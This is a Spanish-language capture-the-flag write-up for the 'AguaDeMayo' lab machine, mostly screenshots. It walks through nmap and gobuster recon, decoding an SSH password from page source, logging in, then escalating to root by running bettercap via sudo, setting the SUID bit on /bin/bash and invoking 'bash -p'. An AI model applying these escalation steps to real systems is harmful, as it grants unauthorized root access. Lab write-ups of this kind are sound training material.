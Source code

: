 Maquina: AguaDeMayo 

Autor: The Hacker Labs

Dificultad: Facil

![Screenshot 2024-11-08 174356](https://github.com/user-attachments/assets/c2b09479-e47f-4a93-9b31-da521bb88b84)

ping 172.17.0.2 -c 1
![Screenshot 2024-11-08 170032](https://github.com/user-attachments/assets/4af11b81-116a-4878-8bef-8bd6f8317fdf)

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv
![Screenshot 2024-11-08 170117](https://github.com/user-attachments/assets/6b89c8d4-2175-445e-a3e6-26da80af094a)

Encontramos el puerto 22 y el puerto 80.

Accedemos a la web y encontramos esto:

![Screenshot 2024-11-08 174535](https://github.com/user-attachments/assets/5357a188-9e59-48fd-a33e-d79c564b4ad0)

Vamos a hacer un reconocimiento con gobuster:
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
Encontramos el directorio images, vamos a acceder:

http://172.17.0.2/imagenes/

Vemos una imagen, vamos a descargarla:

![Screenshot 2024-11-08 171645](https://github.com/user-attachments/assets/b54d185b-a12f-4354-8d1e-937a7941ab2a)

Vamos a aplicar esteganografía

Pero nos pide una contraseña. Si miramos el código fuente de Apache, al final vemos esto:

![Screenshot 2024-11-08 173114](https://github.com/user-attachments/assets/34284973-abf2-4450-b903-c62ce3701218)

Vamos a descifrarlo en dcode.fr.

En esta web lo podemos descodificar y nos da este resultado:

![Screenshot 2024-11-08 173805](https://github.com/user-attachments/assets/0f3b500c-3a91-452d-bd9e-b7e49bb9774a)

la imagen tiene el nombre de agua_ssh. Agua es el usuario y la contraseña es bebeaguaqueessano.

Accedemos por ssh

ssh agua@172.17.0.2

![Screenshot 2024-11-08 174024](https://github.com/user-attachments/assets/38b39aed-dc57-437e-9c72-f298f5a090ba)

Si hacemos un sudo -l vemos lo siguiente:

Ejecutamos el binario: 
sudo -u root /usr/bin/bettercap

Cambiamos el permiso a suid de la bash
! chmod u+s /bin/bash

Ahora salimos y ejecutamos bash -p seremos root
bash -p

whoami

![Screenshot 2024-11-08 174137](https://github.com/user-attachments/assets/cba6e884-6a07-4bde-b55c-7fb3bdf95cb0)
